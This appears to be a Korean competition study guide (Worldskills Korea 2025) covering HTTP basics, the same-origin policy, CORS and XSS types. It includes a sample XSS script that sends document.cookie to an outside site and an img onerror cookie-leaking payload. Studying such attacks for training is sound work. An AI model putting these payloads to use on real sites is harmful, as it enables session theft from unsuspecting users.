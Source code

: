 ```yaml
---

# 🛡 사이버 보안 *Cyber Security* 🔐
## 🖋 *Written by **Donghyun Choi*** (**KGU**)
###### ⚔ - Worldskills Korea ▫ National 2025 (Cyber Security Practices) - 🏹 [ *Written by NullBins* ]
- By default, Solves problems using only Kali Linux.
- ❗❗ **Never attempt to use this guide on a commercial site or server. You do so at your own risk.** ❗❗
- ❗❗ **절대로 이 가이드를 보고 상용 중인 사이트나 서버에 시도하지 마십시오. 해당행위로 생기는 책임은 본인에게 있습니다.** ❗❗

# [ *Project-3* ] <*⚔Hacking Project🛠*>

---
```


## 1. 🌐웹 해킹 (Web Hacking)
- **HTTP 헤더 (HTTP Header)**: HTTP 헤더의 각 줄은 `CRLF`로 구분되며, 첫 줄은 `Start Line`, 나머지 줄은 `Header`라고 부른다. 헤더의 끝 줄은 빈 줄로 나타낸다.
- **CRLF**: `CR(Carriage Return)`과 `LF(Line Feed)`의 조합을 나타낸다. **CR**은 커서를 현재 줄의 맨 앞으로 이동시키는 문자, **LF**는 커서 다음 줄로 문자이다.
- 윈도우에서는 줄을 종결하기 위해 `CRLF`를 사용하고, 리눅스나 유닉스 기반 운영체제에서는 `LF`만을 사용한다.
- **HTTP 요청의 시작줄**은 `메소드(Method)`, `요청 대상(Request Target)`, `HTTP 버전`으로 구성된다. (ex. POST /login HTTP/1.1)
- **URL(Uniform Resource Locator)**: `웹에 있는 리소스의 위치`를 표현하는 문자열이다.
- **URL**은 http(`schema`)://cybersecurity.skills:8080(`authority`)/login(`path`)?id=user01(`query`)#name(`fragment`) 로 표현된다.
- **Fragment**는 *메인* 리소스에 존재하는 *서브* 리소스에 접근할때 이를 식별하기 위한 정보를 담고있다.
### **쿠키 생성 JavaScript 명령어**
```javascript
document.cookie = "name=test;"
document.cookie = "age=30;"
```
- **SOP(Same Origin Policy)** 란 동일 출처 정책으로서 보안 메커니즘이다. 이걸 사용하는 이유는 *브라우저는 웹 리소스를 통해 간접적으로 `타 사이트를 접근할때`도 인증 정보인 쿠키를 함께 전송하는 특징때문이다.*
- 이 SOP를 적용하게 되면 `스키마`, `호스트`, `포트`만 달라도 Cross Origin으로 인식하게 된다. 오로지 Path만 허용하게 된다.
- 예를들어 `https://meister.hrdkorea.or.kr` 이라는 사이트에 접속하여 밑에 있는 명령어를 입력하게 되면 SOP가 적용되어 있는 사이트의 경우 `Origin 오류`가 생긴다.
### Cross Origin 공격
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
console.log(crossNewWindow.location.href);
```
- 하지만 밑의 명령어 처럼 데이터를 쓰는것은 문제없이 동작한다.
### 데이터 쓰기
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
crossNewWindow.location.href = "https://meister.hrdkorea.or.kr";
```
- 사이트의 호스트가 달라 SOP때문에 정보를 교환하지 못할때 이러한 Cross Origin 정책을 완화시켜주는 방식은 `CORS(Cross Origin Resource Sharing)`이다.
- **Stored XSS**: `악성 스크립트가 서버에 저장`되고 `서버 응답에 담겨오는` XSS
- **Reflected XSS**: `악성 스크립트가 URL에 저장`되고 `서버 응답에 담겨오는` XSS
- **DOM-Based XSS**: `악성 스크립트가 URL Fragment에 저장`되는 XSS
- **Universal XSS**: 브라우저 플러그인 취약점으로 `SOP 정책을 우회하는` XSS
### XSS 스크립트
```html
<script>
document.cookie;
alert(document.cookie);
document.cookie = "name=test;";
new Image().src = "https://meister.hrdkorea.or.kr?cookie=" + document.cookie;
document;
document.write = "You have been Hacked!";
</script>
<img src="XSS" onerror="location.href = '?cookie=' + document.cookie">
```

---

## 2. 🛠리버스 엔지니어링 (Reverse Engineering)
